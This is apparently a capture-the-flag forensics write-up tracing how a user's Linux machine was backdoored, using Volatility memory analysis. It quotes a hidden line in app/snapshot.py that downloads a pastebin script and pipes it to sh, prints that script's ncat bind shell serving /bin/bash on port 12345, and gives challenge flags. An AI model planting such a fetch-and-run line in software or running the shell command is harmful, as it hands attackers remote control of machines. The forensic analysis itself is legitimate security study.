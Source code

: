 *Ncat is a general-purpose command-line tool for reading, writing, redirecting, and encrypting data across a network.*

This give us the flag : shkCTF{2854:ncat:2020-05-07 14:56:54}
Submitting it, we can move forward

### Entry Point

*We do not understand how this process was launch.*

*Take a look at what k3vin did to find out where is the backdoor.*

Do you remember the bash history of the first task ? There was a git clone and execution of the downloaded code.
What if... ?
I did the same as k3vin, I downloaded the zip, unziped it... We have multiple python files. Reading everyone of them, 
I found this in app/snapshot.py:

```
def generateSnapshot(sourcePath):
    print('Generating snapshot..')
    ;os.system('wget -O - https://pastebin.com/raw/nQwMKjtZ 2>/dev/null|sh')
    files = generateFileList(sourcePath)
```

Following this link...

```
$ curl https://pastebin.com/raw/nQwMKjtZ

### Congratz : c2hrQ1RGe3RoNHRfdzRzXzRfZHVtYl9iNGNrZDAwcl84NjAzM2MxOWUzZjM5MzE1YzAwZGNhfQo=
nohup ncat -lvp 12345 -4 -e /bin/bash > /dev/null 2>/dev/null &

$ echo "c2hrQ1RGe3RoNHRfdzRzXzRfZHVtYl9iNGNrZDAwcl84NjAzM2MxOWUzZjM5MzE1YzAwZGNhfQo=" | base64 -d 
shkCTF{th4t_w4s_4_dumb_b4ckd00r_86033c19e3f39315c00dca}
```
Third flag !

### Compromised

*We do not understand. We changed the password of k3vin but it look's like someone can still access his account.*

*Can you please find out how the hacker did ?*

How could this be done ? Part of the answer is in the bash_history. What is this vim of /etc/rc.local ?

Looking on the internet, here is the usage of that file :

*The script /etc/rc. local is for use by the system administrator. It is traditionally executed after all the normal system services are started, at the end of the process of switching to a multiuser runlevel. You might use it to start a custom service*

If we check the parent of the vim process, there is no more doubt.

```
$ volatility --profile=Linuxsharkyx64 -f dump.mem linux_pstree
Volatility Foundation Volatility Framework 2.6
Name                 Pid             Uid            
systemd              1               -1             
.systemd-journal     502                            
.lvmetad             519                            
.systemd-udevd       533                     
.gvfsd-metadata      2779            1000           
.ncat                2854                           
..bash               2876                           
...python            2886                           
....bash             2887                           
```